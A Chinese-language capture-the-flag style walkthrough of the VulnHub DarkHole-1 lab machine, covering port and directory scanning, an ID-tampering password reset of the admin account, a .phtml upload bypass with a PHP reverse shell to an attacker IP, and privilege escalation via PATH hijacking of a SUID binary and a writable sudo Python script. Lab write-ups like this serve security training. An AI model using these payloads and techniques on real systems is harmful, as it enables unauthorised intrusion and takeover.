靶机地址：https://www.vulnhub.com/entry/darkhole-1,724/

## 信息收集 

```bash
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-1]
└─$ sudo nmap -sT  --min-rate=10000 -p- 172.16.31.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 09:51 CST
Nmap scan report for 172.16.31.16
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:28:53:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.50 seconds

```

详细信息扫描

```bash
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-1]
└─$ sudo nmap -sT -sC -sV -O -p22,80 172.16.31.16 -oA nmapscan/detail
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 09:55 CST
Nmap scan report for 172.16.31.16
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e4:50:d9:50:5d:91:30:50:e9:b5:7d:ca:b0:51:db:74 (RSA)
|   256 73:0c:76:86:60:63:06:00:21:c2:36:20:3b:99:c1:f7 (ECDSA)
|_  256 54:53:4c:3f:4f:3a:26:f6:02:aa:9a:24:ea:1b:92:8c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:0C:29:28:53:5E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds

```

漏洞扫描

```bash
nmap --script=vuln -p 22,80 172.16.31.16 -oA nmapscan/vulns

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 09:56 CST
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.52% done; ETC: 09:56 (0:00:00 remaining)
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.52% done; ETC: 09:56 (0:00:00 remaining)
Nmap scan report for 172.16.31.16
Host is up (0.00022s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.16.31.16
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://172.16.31.16:80/login.php
|     Form id: login__username
|     Form action: login.php
|     
|     Path: http://172.16.31.16:80/register.php
|     Form id: login__username
|_    Form action: 
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /login.php: Possible admin folder
|   /config/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
|_  /upload/: Potentially interesting directory w/ listing on 'apache/2.4.41 (ubuntu)'
MAC Address: 00:0C:29:28:53:5E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 33.07 seconds

```

目录扫描

```bash
┌──(bypass㉿kali)-[~/VulnHub/DarkHole-1]
└─$ gobuster dir -u http://172.16.31.16 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.31.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload               (Status: 301) [Size: 313] [--> http://172.16.31.16/upload/]
/css                  (Status: 301) [Size: 310] [--> http://172.16.31.16/css/]
/js                   (Status: 301) [Size: 309] [--> http://172.16.31.16/js/]
/config               (Status: 301) [Size: 313] [--> http://172.16.31.16/config/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```


## WEB渗透

### 越权，任意密码修改

访问80端口


点击login，注册一个hacker用户，登录后跳转到能够更改用户密码的页面



抓包改一下密码，看看数据包长什么样子



发现有两个`id`，我们新建的用户id为2，那么原有的用户id应该1，尝试将body里的id修改为1，返回修改成功



猜测原来的用户名为admin，密码刚才我们已经成功修改为admin了，尝试登录



### 文件上传

经过测试，这里上传文件只对后缀名进行了过滤，当我们上传`php`后缀的文件时会失败，但是上传`phtml`后缀的文件是可以的。这里可以上传一句话木马用蚁剑进行连接，也可以直接上传反向连接的php代码，我们使用后者。





```php
<?php system("bash -c 'bash -i >& /dev/tcp/172.16.31.17/5899 0>&1'"); ?>
```

> 让目标主机反向连接172.16.31.17（即攻击机）的5899端口



kali这边先做好监听，点击上传的`phtml`后缀文件，触发反向连接



## 提权

查看有哪些可登录的用户

```bash
cat /etc/passwd|grep /bin/bash
```



发现了一个`john`用户

再看看其他suid权限的文件有哪些

```bash
find / -perm -u=s -type f 2>/dev/null
```



发现可疑文件`/home/john/toto`，直接执行该文件



观察其输出，不难猜测，该文件调用了`id`命令，因此我们可以采用命令劫持的方式进行提权

```bash
echo 'chmod +s /bin/bash' > id            #在当前文件夹下写一个id文件
chmod 777 id                              #更改权限
export PATH=/var/www/html/upload:$PATH    #将当前路径加入环境变量
/home/john/toto                           #执行该文件，会调用我们重写的id
```



执行时发现我们的**chmod +s**命令发生了权限错误，即我们无法让自己写的id文件拥有SUID权限，那么只能先放弃在这里进行提权，先使用**john**的身份进行登录


```bash
echo '/bin/bash' > id
/home/john/toto
python3 -c 'import pty;pty.spawn("/bin/bash")'   #创建交互式shell
```



看到我们已经以**john**的身份登录进来了。
在`/home/john/`下发现`password`文件



得到john用户的密码**root123**

查看John用户可执行的特权命令



看到John用户可以以root身份运行`python3`和`file.py`。
因此我们可以尝试修改`file.py`的内容

```
echo "import pty;pty.spawn('/bin/bash')" > file.py
```



> > 在这里有一个坑，当我们使用相对路径时会无法执行，使用绝对路径时才可以，我也不知道为啥
